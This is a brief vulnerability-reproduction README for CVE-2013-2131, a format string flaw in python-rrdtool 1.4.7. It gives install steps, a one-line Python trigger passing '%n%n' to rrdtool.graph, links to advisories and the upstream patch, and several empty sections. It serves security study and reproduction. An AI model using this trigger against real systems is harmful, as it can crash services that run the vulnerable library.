 # CVE-2013-2131

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-2131/python-rrdtool-1.4.7.tar.gz
tar -xvf python-rrdtool-1.4.7.tar.gz
cd python-rrdtool-1.4.7
sudo python setup.py install
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
python -c "import rrdtool
rrdtool.graph('/tmp/out.png','-f','%n%n')"
```

## PoCs

[Bug 969296 - (CVE-2013-2131) CVE-2013-2131 rrdtool: crashes on format string exploit](https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2013-2131)

[Python RRDtool Module Function Format String Vulnerability](https://www.securityfocus.com/bid/60004/exploit)

I don't know how to reproduce the vulnerability via [Python RRDtool Module - Function Format String](https://www.exploit-db.com/exploits/38521/)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

Details are in <https://github.com/oetiker/rrdtool-1.x/pull/397/files>

## References
